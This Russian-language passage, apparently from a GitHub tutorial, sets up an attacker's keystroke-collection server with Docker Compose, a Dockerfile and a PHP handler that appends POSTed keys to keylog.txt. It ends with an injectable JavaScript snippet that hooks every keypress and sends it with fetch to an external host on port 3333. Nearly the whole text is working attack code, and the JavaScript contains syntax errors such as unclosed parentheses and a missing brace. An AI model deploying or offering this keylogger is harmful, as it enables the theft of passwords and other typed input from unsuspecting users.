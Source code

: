 ### 🛠 Этап 2 — Сервер злоумышленника: контейнер для сбора нажатий клавиш

Назначение: принять `POST` от вредоносного JS и записывать нажатия клавиш в `keylog.txt`.

#### 📦 Docker Compose (машина злоумышленника)
```yaml
version: '3.8'

services:
  keylogger:
    build:
      context: .
      dockerfile: Dockerfile
    container_name: keylogger_server
    ports:
      - "3333:80"
    # (опционально) сохраняем логи на хосте:
    # volumes:
    #   - ./logs:/var/www/html
```
🧱 Dockerfile
```
FROM php:8.1-apache

# Копируем обработчик
COPY keylogger.php /var/www/html/keylogger.php

# Права на запись для файла логов
RUN chown -R www-data:www-data /var/www/html
```

🗃 keylogger.php

```
<?php // keylogger.php — скрипт для логирования нажатий клавиш 
if ($_SERVER['REQUEST_METHOD'] == 'POST') { 
  $key = isset($_POST['key']) ? $_POST['key'] : ''; 
  $log_entry = "Key: " . $key . " at " . date("Y-m-d H:i:s") . "\n";
  file_put_contents('keylog.txt', $log_entry, FILE_APPEND);
}
?>
```

keylogger.php – это минимальный PHP-обработчик, расположенный на машине злоумышленника. Скрипт принимает HTTP-запросы методом POST с полем key, формирует строку журнала вида Key: <символ> at <YYYY-MM-DD HH:MM:SS> и добавляет её в файл keylog.txt, файл создаётся автоматически при первом обращении. Тем самым каждое нажатие клавиши, перехваченное на стороне клиента, мгновенно фиксируется на сервере злоумышленника и может быть проанализировано позднее.

Фрагмент кода незашифрованного URL скрипта
```
<script>
document.onkeypress = function (e) { 
    var key = e.key
    console.log("Нажата клавиша: " + key
    fetch("http://192.168.0.114:3333/keylogger.php",
        method: "POST",
        headers: { "Content-Type": "application/x-www-form-urlencoded" },
        body: "key=" + encodeURIComponent(key
    });
};
</script>
```